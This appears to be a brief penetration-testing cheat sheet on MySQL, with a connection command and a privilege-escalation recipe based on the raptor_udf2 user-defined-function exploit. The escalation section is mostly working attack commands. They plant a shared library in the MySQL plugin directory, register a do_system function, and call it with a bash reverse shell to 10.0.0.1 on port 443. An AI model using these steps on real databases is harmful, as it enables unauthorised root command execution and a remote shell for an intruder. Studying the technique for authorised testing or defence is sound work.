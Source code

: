 # mysql

### Connecting to Mysql  
```mysql -u user --password db_name```

### Privilege Escalation

Mysql 4.x & 5.0 (requires valid creds) - [dynamic library for do_system() MySQL UDF-raptor_udf2.c](https://www.exploit-db.com/exploits/1518)
```mysql> create table foo(line blob);
mysql> insert into foo values(load_file(‘/tmp/exploit.so’));
mysql> select * from foo into dumpfile ‘/usr/lib/mysql/plugin/exploit.so’;
mysql> create function do_system returns integer soname ‘exploit.so’;
mysql> select do_system(‘bash -i >& /dev/tcp/10.0.0.1/443 0>&1’);
```
REF: [mysql system to root](https://recipeforroot.com/mysql-to-system-root/)
